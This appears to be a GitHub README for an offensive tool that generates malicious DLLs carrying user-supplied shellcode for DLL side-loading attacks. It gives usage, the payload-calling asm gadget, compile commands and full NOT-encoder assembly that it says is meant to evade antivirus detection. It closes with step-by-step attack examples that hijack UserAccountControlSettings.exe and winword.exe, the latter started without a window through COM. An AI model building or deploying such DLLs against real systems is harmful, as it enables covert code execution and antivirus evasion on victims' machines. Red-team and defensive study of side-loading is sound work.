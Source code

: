 # MaliciousDLLGenerator

DLL Generator for side loading attack (Python 3 Compatible Version)

## Note

This project was originally created by Mr.Un1k0d3r of RingZer0 Team I couldn't find a repository
to the original or i would have sumitted a Pull Request. In lieu of that i decided to host it here.

All credit goes to Mr.Un1k0d3r and RingZer0 Team. All i did was make it Python 3 compatible.


### Currently only support 64 bits shellcode

# Usage

```
$ python gen-dll.py -h

MaliciousDLLGenerator - Mr.Un1k0d3r - RingZer0 Team
---------------------------------------------------


[-] Shellcode size is limited to 1024 bytes
usage: gen-dll.py [-h] -o OUTPUT -s SHELLCODE [-t TYPE]

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output filename
  -s SHELLCODE, --shellcode SHELLCODE
                        Raw shellcode file path
  -t TYPE, --type TYPE  DLL type (default,oart)
```

# Shellcode gadget

Instead of using the standard shellcode calling structure

```
char shellcode[] = {};
int(*execute)(void);
execute = (int(*)())shellcode;
execute();
```

Which result in the following assembly code

```
call rax
```

The DLL is mimicking a standard function return by using the following code

```
        CHAR payload[] = "";
        asm volatile ("mov %%rax, %0\n\t"
                     "push %%rax\n\t"
                     "ret"
                     :
                     : "r" (payload));
```

Which result in following assembly code

```
mov rax, rsp
push rax
ret
```

# Compiling from source using GCC

```
C:\> x86_64-w64-mingw32-g++.exe -Wall -DBUILD_DLL -O2 -c maindll.cpp -o maindll.o
C:\> x86_64-w64-mingw32-g++.exe -shared -Wl,--dll maindll.o -o yourdll.dll -s 
```

# Compiling from ASM

64 bits

```
$ nasm -felf64 encoder-64.asm -o encoder-64.o
$ ld -N encoder-64.o -o encoder-64
```

32 bits

```
$ nasm -felf32 encoder-32.asm -o encoder-32.o
$ ld -N -melf_i386 encoder-32.o -o encoder-32
```

# Obfuscation shellcode

The DLL encode the shellcode using a simple NOT encoder to avoid AV detection.

# 64 bits NOT encoder source

```
_start:
        call $ + 5
        pop rbx
        xor rax, rax
        mov rcx, rax
        mov cl, 128
        add rbx, 16
_loop:
        not QWORD [rbx + rcx * 8]
        loop _loop
        add rbx, 8
        push rbx
        ret
```

# 32 bits NOT encoder source

```
_start:
        call $ + 5
        pop ebx
        xor eax, eax
        mov ecx, eax
        mov cx, 256
        add ebx, 18
_loop:
        not DWORD [ebx + ecx * 4]
        loop _loop
        add ebx, 4
        push ebx
        ret
```

# Attack examples

Using windows binaries

```
copy C:\windows\system32\UserAccountControlSettings.exe to a writable location
add the malicious dll in the same folder and rename it to cryptbase.dll
```

```
copy C:\Program Files (x86)\Microsoft Office\root\Office16\winword.exe to a writable location
add the malicious dll (use the oart switch) in the same folder and rename it to oart.dll

it can be trigged remotely using COM object. Winword can be started without GUI using the following command:
C:\yourpath\winword.exe /Automation -Embedding
```

# Credit
Mr.Un1k0d3r RingZer0 Team
